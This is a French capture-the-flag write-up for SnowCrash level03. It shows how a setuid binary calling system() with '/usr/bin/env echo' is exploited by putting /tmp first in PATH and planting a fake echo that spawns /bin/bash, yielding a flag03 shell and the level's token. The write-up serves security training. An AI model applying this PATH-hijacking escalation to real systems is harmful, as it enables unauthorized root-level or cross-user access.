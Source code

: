 # LEVEL 03

### Reconnaissance

En se connectant au level03, on tombe sur un binaire qui possède des droits SUID:

```
$ level03@SnowCrash:~$ file level03 
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
$ level03@SnowCrash:~$ ls -la level03 
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
### Exploitation

Quand on le lance, la sortie nous donne "Exploit me".

On regarde les strings du binaire:
```
$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

Et avec un débugeur, on peux voir qu'il y a un appel a system avec en argument:
```
ESP: 0xffffcf70 --> 0x80485e0 ("/usr/bin/env echo Exploit me")

0x80484fe <main+90>:	call   0x80483b0 <system@plt>
```

Pour l'exploitation, on va modifier le PATH de facon a ce que notre commande echo soit exécuté et pas celle du system:

```
level03@SnowCrash:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level03@SnowCrash:~$ PATH=/tmp:$PATH
level03@SnowCrash:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level03@SnowCrash:~$ export PATH
```
Ensuite on va creer notre propre commande echo:

```
level03@SnowCrash:~$ echo "/bin/bash" > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ ./level03 
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:~$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
flag03@SnowCrash:~$ exit
```

